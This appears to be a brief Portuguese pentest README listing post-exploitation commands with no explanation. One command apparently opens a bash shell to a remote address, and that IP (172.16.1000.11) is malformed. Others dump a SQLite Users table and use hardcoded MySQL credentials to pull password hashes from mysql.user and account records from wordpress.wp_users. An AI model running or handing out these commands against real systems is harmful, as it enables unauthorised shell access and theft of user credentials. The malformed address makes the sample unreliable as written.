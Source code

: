 # posexploracao
Lista de comandos relacionados a pentest

sqlite3
.tables
select * from Users


rbscheat -i 172.16.1000.11:2223 -l bash

echo "select * from mysql.user;" | mysql -h 127.0.0.1 -uwordpress -pskade 

echo "select * from wordpress.wp_users;" | mysql -h 127.0.0.1 -uwordpress -pskade 

export TERM=xterm >>>> 
